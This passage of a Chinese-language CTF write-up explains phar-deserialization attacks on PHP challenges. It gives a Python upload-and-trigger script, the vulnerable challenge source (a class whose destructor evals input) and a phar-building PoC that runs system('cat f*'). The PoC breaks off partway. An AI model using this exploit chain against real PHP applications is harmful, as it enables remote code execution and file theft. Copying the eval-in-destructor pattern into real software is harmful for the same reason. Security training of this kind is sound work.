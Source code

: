然后上传并利用file_exists触发phar：

```python
import requests
url="http://4753edb4-561f-452f-bae3-2b84b0c44407.challenge.ctf.show/"
# 上传phar文件
requests.post(url,data={'file':'/tmp/a.phar','content':open('a.phar','rb').read()})
# phar文件包含
r=requests.post(url,data={'file':'phar:///tmp/a.phar/a','content':'123','1':'system("cat f*");'})
print(r.text)
```

## 804-phar文件包含

```php
<?php

# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2022-03-19 12:10:55
# @Last Modified by:   h1xa
# @Last Modified time: 2022-03-19 13:27:18
# @email: h1xa@ctfer.com
# @link: https://ctfer.com


error_reporting(0);
highlight_file(__FILE__);


class hacker{
    public $code;
    public function __destruct(){
        eval($this->code);
    }
}

$file = $_POST['file'];
$content = $_POST['content'];

if(isset($content) && !preg_match('/php|data|ftp/i',$file)){
    if(file_exists($file)){
        unlink($file);
    }else{
        file_put_contents($file,$content);
    }
}
```

多了个类的利用，改一下poc：

```php
<?php
class hacker{
    public $code="system('cat f*');";
}

$a = new hacker();
echo urlencode(serialize($a));

# 下面这部分就没改
$phar = new Phar("a.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$phar->setMetadata($a); //将自定义的meta-data存入manifest
```